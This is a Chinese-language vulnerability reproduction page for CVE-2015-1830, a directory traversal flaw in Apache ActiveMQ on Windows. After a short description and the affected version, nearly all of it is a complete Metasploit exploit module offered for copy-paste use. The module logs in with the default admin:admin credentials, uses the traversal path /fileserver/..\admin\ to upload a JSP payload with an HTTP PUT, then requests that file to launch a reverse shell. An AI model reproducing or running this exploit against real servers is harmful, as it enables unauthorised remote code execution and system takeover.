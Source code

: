 <h1>（CVE-2015-1830）ActiveMQ 路径遍历导致未经身份验证的rce</h1>
<h2>一、漏洞简介</h2>
<p>Windows 5.11.2之前的Apache ActiveMQ 5.x中blob消息的文件服务器上载/下载功能中的目录遍历漏洞允许远程攻击者通过未指定的向量在任意目录中创建JSP文件。</p>
<h2>二、漏洞影响</h2>
<p>ActiveMQ 5.11.1</p>
<h2>三、复现过程</h2>
<h3>msf poc</h3>
<blockquote>
<p>直接在msf里面搜索就行了，如果没有请更新msf版本，或者手动复制下面的脚本到msf目录下。</p>
</blockquote>
<pre><code>##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule &lt; Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient

  def initialize(info = {})
    super(update_info(info,
      'Name'           =&gt; 'Apache ActiveMQ 5.x-5.11.1 Directory Traversal Shell Upload',
      'Description'    =&gt; %q{
        This module exploits a directory traversal vulnerability (CVE-2015-1830) in Apache
        ActiveMQ 5.x before 5.11.2 for Windows.

        The module tries to upload a JSP payload to the /admin directory via the traversal
        path /fileserver/..\\admin\\ using an HTTP PUT request with the default ActiveMQ
        credentials admin:admin (or other credentials provided by the user). It then issues
        an HTTP GET request to /admin/&lt;payload&gt;.jsp on the target in order to trigger the
        payload and obtain a shell.
      },
      'Author'          =&gt;
        [
          'David Jorm',     # Discovery and exploit
          'Erik Wynter'     # @wyntererik - Metasploit
        ],
      'References'     =&gt;
        [
          [ 'CVE', '2015-1830' ],
          [ 'EDB', '40857'],
          [ 'URL', 'https://activemq.apache.org/security-advisories.data/CVE-2015-1830-announcement.txt' ]
        ],
      'Privileged'     =&gt; false,
      'Platform'    =&gt; %w{ win },
      'Targets'     =&gt;
        [
          [ 'Windows Java',
            {
              'Arch' =&gt; ARCH_JAVA,
              'Platform' =&gt; 'win'
            }
          ],
        ],
      'DisclosureDate' =&gt; '2015-08-19',
      'License'        =&gt; MSF_LICENSE,
      'DefaultOptions'  =&gt; {
        'RPORT' =&gt; 8161,
        'PAYLOAD' =&gt; 'java/jsp_shell_reverse_tcp'
        },
      'DefaultTarget'  =&gt; 0))

    register_options([
      OptString.new('TARGETURI', [true, 'The base path to the web application', '/']),
      OptString.new('PATH',      [true, 'Traversal path', '/fileserver/..\\admin\\']),
      OptString.new('USERNAME', [true, 'Username to authenticate with', 'admin']),
      OptString.new('PASSWORD', [true, 'Password to authenticate with', 'admin'])
    ])
  end

  def check
    print_status("Running check...")
    testfile = Rex::Text::rand_text_alpha(10)
    testcontent = Rex::Text::rand_text_alpha(10)

    send_request_cgi({
      'uri'       =&gt; normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
      'headers'     =&gt; {
        'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    =&gt; 'PUT',
      'data'      =&gt; "&lt;% out.println(\"#{testcontent}\");%&gt;"
    })

    res1 = send_request_cgi({
      'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
      'headers'     =&gt; {
        'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    =&gt; 'GET'
    })

    if res1 &amp;&amp; res1.body.include?(testcontent)
      send_request_cgi(
        opts = {
          'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
          'headers'     =&gt; {
            'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
            },
          'method'    =&gt; 'DELETE'
        },
        timeout = 1
      )
      return Exploit::CheckCode::Vulnerable
    end

    Exploit::CheckCode::Safe
  end

  def exploit
    print_status("Uploading payload...")
    testfile = Rex::Text::rand_text_alpha(10)
    vprint_status("If upload succeeds, payload will be available at #{target_uri.path}admin/#{testfile}.jsp") #This information is provided to allow for manual execution of the payload in case the upload is successful but the GET request issued by the module fails.

    send_request_cgi({
      'uri'       =&gt; normalize_uri(target_uri.path, datastore['PATH'], "#{testfile}.jsp"),
      'headers'     =&gt; {
        'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
        },
      'method'    =&gt; 'PUT',
      'data'      =&gt; payload.encoded
    })

    print_status("Payload sent. Attempting to execute the payload.")
    res = send_request_cgi({
      'uri'       =&gt; normalize_uri(target_uri.path,"admin/#{testfile}.jsp"),
      'headers'     =&gt; {
        'Authorization' =&gt; basic_auth(datastore['USERNAME'], datastore['PASSWORD'])
      },
      'method'    =&gt; 'GET'
    })
    if res &amp;&amp; res.code == 200
      print_good("Payload executed!")
    else
      fail_with(Failure::PayloadFailed, "Failed to execute the payload")
    end
  end
end
</code></pre>

